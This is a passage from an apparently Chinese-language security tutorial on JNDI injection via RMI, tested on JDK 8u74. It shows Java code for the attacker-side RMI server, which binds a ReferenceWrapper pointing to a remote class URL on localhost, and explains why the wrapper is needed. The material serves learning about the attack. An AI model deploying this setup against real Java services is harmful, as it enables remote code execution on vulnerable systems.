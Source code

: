 ![image-20220213235234141](images/1.png)

## JNDI+RMI攻击

可以来看一个RMI+JNDI的例子,我使用的是8u74的jdk版本

首先是服务端（攻击者）

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String url = "http://127.0.0.1:8081/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj",referenceWrapper);
        System.out.println("running");
    }
}
```

因为是配合RMI进行JNDI注入,所以还是和RMI一样创建一个服务端,绑定对应端口,之前学习RMI的时候提到远程对象需要实现`Remote`接口和继承 `UnicastRemoteObject`类才是可以远程调用的,但是因为Reference类没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类,而ReferenceWrapper类却满足,所以用ReferenceWrapper对Reference对象进行包装
